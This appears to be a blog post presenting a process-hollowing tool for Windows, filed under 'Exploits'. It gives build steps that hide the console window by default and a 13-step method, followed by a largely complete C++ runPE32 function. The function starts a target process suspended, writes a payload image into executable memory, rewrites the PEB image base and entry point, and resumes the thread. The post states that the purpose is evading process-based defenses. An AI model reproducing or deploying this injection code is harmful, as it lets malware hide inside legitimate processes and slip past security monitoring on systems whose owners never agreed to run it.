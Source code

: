 ```yaml
---
layout: post
title:  "ProcessHollowing"
author: Aaron Ti
date:   2020-08-06
category: Exploits
abstract: Injection of code into suspended and hollowed processes in order to evade process-based defenses
website: https://github.com/mcdulltii/ProcessHollowing
---
```


## Building

```
> cmake .
```

To show(1)/hide(2) console window when running executable:

```
- Properties
  - Linker
    - System
      - SubSystem: 
	1. Console (/SUBSYSTEM:CONSOLE)
	2. Windows (/SUBSYSTEM:WINDOWS)
    - Advanced
      - Entry Point
	1. (BLANK)
	2. mainCRTStartup
```

Default: hidden

## Methodology

1. Create and suspend target process
2. Get thread context of target process
3. Get image base of target process
4. Unmap target process memory space (Optional)
5. Allocate temporary memory space for custom payload
6. Change image base for symbolic imports
7. Store payload in allocated temporary memory space
8. Ensure image base of process is the same
9. Overwrite target process memory space with payload
10. Free allocated temporary memory space
11. Overwrite image base in headers
12. Set new Entrypoint
13. Resume target process

```Cpp
/*
runPE32:
    targetPath - application where we want to inject
    payload - buffer with raw image of PE that we want to inject
    payload_size - size of the above

    desiredBase - address where we want to map the payload in the target memory; NULL if we don't care. 
        This address will be ignored if the payload has no relocations table, because then it must be mapped to it's original ImageBase.
    unmap_target - do we want to unmap the target? (we are not forced to do it if it doesn't disturb our chosen base)
*/
bool runPE32(LPWSTR targetPath, BYTE* payload, SIZE_T payload_size, ULONGLONG desiredBase = NULL, bool unmap_target = false)
{
    load_ntdll_functions();

    //Load payload:
    IMAGE_NT_HEADERS32* payload_nt_hdr32 = get_nt_hrds32(payload);
    const ULONGLONG oldImageBase = payload_nt_hdr32->OptionalHeader.ImageBase;
    SIZE_T payloadImageSize = payload_nt_hdr32->OptionalHeader.SizeOfImage;

    //create target process:
    create_new_process1(targetPath, pi);

    //get initial context of the target:
    memset(&context, 0, sizeof(WOW64_CONTEXT));
    context.ContextFlags = CONTEXT_INTEGER;
    Wow64GetThreadContext(pi.hThread, &context);

    //get image base of the target:
    DWORD PEB_addr = context.Ebx;
    ReadProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &targetImageBase, sizeof(DWORD), NULL);

    //try to allocate space that will be the most suitable for the payload:
    LPVOID remoteAddress = VirtualAllocEx(pi.hProcess, (LPVOID)desiredBase, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //change the image base saved in headers - this is very important for loading imports:
    payload_nt_hdr32->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)remoteAddress);

    //Prepare the payload image in the local memory, then copy it into the space reserved in the target process
    LPVOID localCopyAddress = VirtualAlloc(NULL, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    copy_pe_to_virtual_l(payload, payload_size, localCopyAddress);

    //if the base address of the payload changed, we need to apply relocations:
    if ((ULONGLONG)remoteAddress != oldImageBase) {
        apply_relocations((ULONGLONG)remoteAddress, oldImageBase, localCopyAddress);
    }

    SIZE_T written = 0;
    // paste the local copy of the prepared image into the reserved space inside the remote process:
    WriteProcessMemory(pi.hProcess, remoteAddress, localCopyAddress, payloadImageSize, &written);

    //free the localy allocated copy
    VirtualFree(localCopyAddress, payloadImageSize, MEM_FREE);

    //overwrite ImageBase stored in PEB
    DWORD remoteAddr32b = static_cast<DWORD>((ULONGLONG)remoteAddress);
    WriteProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &remoteAddr32b, sizeof(DWORD), &written);

    //overwrite context: set new Entry Point
    DWORD newEP = static_cast<DWORD>((ULONGLONG)remoteAddress + payload_nt_hdr32->OptionalHeader.AddressOfEntryPoint);
    context.Eax = newEP;
    Wow64SetThreadContext(pi.hThread, &context);

    //start the injected:
    printf("--\n");
    ResumeThread(pi.hThread);
    return true;
}
```

## Reference

- https://github.com/hasherezade/demos/tree/master/run_pe
